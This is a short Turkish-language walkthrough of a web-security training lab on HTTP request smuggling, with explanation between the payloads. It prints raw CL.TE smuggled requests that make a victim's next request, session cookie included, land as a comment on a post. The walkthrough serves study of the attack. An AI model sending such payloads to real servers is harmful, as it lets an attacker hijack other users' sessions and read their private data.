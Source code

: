 ```jsx
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

Valid bir kullanıcı uygulamaya bir istek yaptığında yukarıdaki payload’ın sonundaki comment’e bütün request eklenecek ve yorum olarak kullanıcının hassas bilgileri görüntülenecektir.

```jsx
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

Bu laboratuvarda front-end ve back-end sunucusu bulunmaktadır. Front-end sunucusu chunked encoding’i desteklememektedir. Lab’ın tamamlanması için bir sonraki kullanıcının requestini çalmaya yarayacak bir requesti back-end’e iletilmelidir.

Uygulamanın yorum yapma fonksiyonu POST request ile çalışmaktadır. Aşağıdaki istek hedef sunucuya gönderildiğinde yorum yapma requesti bir sonraki request olarak kalacaktır ve kurban uygulamaya request yaptığında request olarak algılanmayıp yorum olarak algılanacaktır ve ilgili paylaşımın yorumuna post olarak düşecektir.

```jsx
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```
